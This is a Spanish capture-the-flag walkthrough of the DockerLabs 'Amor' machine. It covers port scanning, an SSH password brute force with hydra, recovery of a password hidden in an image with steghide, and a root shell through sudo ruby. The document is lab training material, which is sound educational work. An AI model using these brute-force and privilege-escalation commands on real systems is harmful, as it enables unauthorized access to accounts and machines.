 #MAQUINA #DOCKERLABS #FACIL 
<hr>

# RECONOCIMIENTO

Vamos a resolver **Amor** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 12:17 CET
Initiating ARP Ping Scan at 12:17
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 12:17, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:17
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 12:17, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-11-25 12:17:40 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.69 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 12:18 CET
Nmap scan report for 172.17.0.2
Host is up (0.000024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: SecurSEC S.L
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.33 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 12:18 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)
Al revisar la web que hay en el puerto 80, vemos que hay varias cosas interesantes :
+ Dos posibles usuarios -> **juan** y **carlota**
+ Un usuario con contra débil
+ **Juan** envió un correo con su contraseña

# EXPLOTACION

Usamos **hydra** para intentar sacar la contraseña:

   ```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-25 12:19:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 20 final worker threads did not complete until end.
[ERROR] 20 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-25 12:20:12

```
**usuario : carlota**
**contraseña: babygirl**
# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene algo en su escritorio y si es asi nos lo traemos levantando un servidor:
   ```bash
carlota@e8e0f5750306:~/Desktop/fotos/vacaciones$ ls -la
total 60
drwxr-xr-x 1 root root  4096 Apr 26  2024 .
drwxr-xr-x 1 root root  4096 Apr 26  2024 ..
-rw-r--r-- 1 root root 51914 Apr 26  2024 imagen.jpg
carlota@e8e0f5750306:~/Desktop/fotos/vacaciones$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.1 - - [25/Nov/2024 11:26:12] "GET /imagen.jpg HTTP/1.1" 200 -

```

Nos lo traemos con **wget** :
   ```bash
wget "http://172.17.0.2:8000/imagen.jpg"

```
Vemos si oculta algo con **steghide** :
   ```bash
   
steghide extract -sf imagen.jpg                                                                      
Enter passphrase: 
wrote extracted data to "secret.txt".

cat secret.txt    
ZXNsYWNhc2FkZXBpbnlwb24=

echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d      
eslacasadepinypon

```

Si hacemos un `cat /etc/passwd` vemos otro usuario -> **oscar**

**usuario : oscar**
**contraseña: eslacasadepinypon**

YA ESTAMOS COMO OSCAR

Vemos si el usuario tiene permisos SUDO:
   ```bash
oscar@e8e0f5750306:/home/carlota/Desktop/fotos/vacaciones$ sudo -l
Matching Defaults entries for oscar on e8e0f5750306:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on e8e0f5750306:
    (ALL) NOPASSWD: /usr/bin/ruby

```

Vemos **bash** con permisos SUDO :
   ```bash
oscar@e8e0f5750306:/home/carlota/Desktop/fotos/vacaciones$ 

    sudo ruby -e 'exec "/bin/sh"'

# whoami
root
# 
```

**YA ESTAMOS COMO ROOT.**

